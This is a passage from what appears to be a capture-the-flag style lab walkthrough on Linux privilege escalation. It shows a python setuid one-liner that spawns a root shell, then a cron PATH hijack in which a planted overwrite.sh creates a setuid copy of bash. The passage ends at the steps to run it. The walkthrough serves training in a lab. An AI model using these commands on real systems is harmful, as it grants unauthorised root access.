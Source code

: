 ~~~
TCM@debian:~$ /usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@debian:~# id
uid=0(root) gid=1000(user) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
~~~


# [Task 16] Privilege Escalation - Cron (Path)

**Detection**

Linux VM

1. In command prompt type: `cat /etc/crontab`
2. From the output, notice the value of the `PATH` variable.

~~~
TCM@debian:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh
~~~

**Exploitation**

Linux VM

1. In command prompt type: `echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh`
2. In command prompt type: `chmod +x /home/user/overwrite.sh`

~~~
TCM@debian:~$ echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh
TCM@debian:~$ chmod +x /home/user/overwrite.sh
~~~

3. Wait 1 minute for the Bash script to execute.
4. In command prompt type: `/tmp/bash -p`
5. In command prompt type: `id`
